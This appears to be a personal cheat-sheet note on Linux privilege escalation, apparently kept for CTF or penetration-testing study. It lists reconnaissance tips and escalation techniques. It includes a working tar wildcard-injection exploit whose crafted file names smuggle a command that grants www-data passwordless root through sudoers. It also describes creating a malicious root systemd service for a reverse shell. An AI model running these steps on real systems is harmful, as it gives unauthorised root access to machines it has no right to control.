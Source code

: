 # Linux-privesc
Tags: #privesc #linux #docker #capabilities 
Related to:  [[docker]]
See also:
Previous: 

## Important Links

Title: HackTricks entry on UNIX privesc
Link: https://book.hacktricks.xyz/linux-unix/privilege-escalation
About: Huge list of techniques. Has much more than I've personally encountered (which is the content below)

## System Reconnaissance
Use LinPEAs! https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

### Check if a tool is installed
`command -V $tool`. Note: use `-V` instead of `-v`. It provides better outpu:

```
# Example of the differences
john@box ~ % command -v docker
/usr/local/bin/docker
john@box ~ % command -V docker
docker is /usr/local/bin/docker
john@box ~ % command -v which
which
john@box ~ % command -V which
which is a shell builtin
```
### Find SUID files
```
# suid
find "$DIRECTORY" -perm /u=s,g=s
```

## Escalation techniques
### systemctl
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

Create a service that runs as root and does something malicious (change root password, start a rev shell, etc.)

```
/bin/systemctl enable /full/path/to/root.service
/bin/systemctl start root
```


### Tar
`--checkpoint`  flag can be used to execute a script when a wildcard is being used, e.g. `tar cf /dir *`

```
echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh
touch "/dir/--checkpoint-action=exec=sh sudo.sh"
touch "/dir/--checkpoint=1"
```
https://medium.com/azkrath/tryhackme-walkthrough-skynet-69399702ee5a

### Old kernels
DirtyCow 2016 exploit -- dirtycow.ninja
Many scripts, might need to compile

### Docker access
Many privesc possibilties, see [[docker]].

### Linux capabilities
- "Capabilities" == a way to relegate some things `root` can do to other processes
- `capsh --print` to show them

[Linux capabilities man page](https://linux.die.net/man/7/capabilities)

### Redhat/CentOS network-scripts
Writing/editing a file in `/etc/sysconfig/network-scripts` allows for RCE as `root`.

See: https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

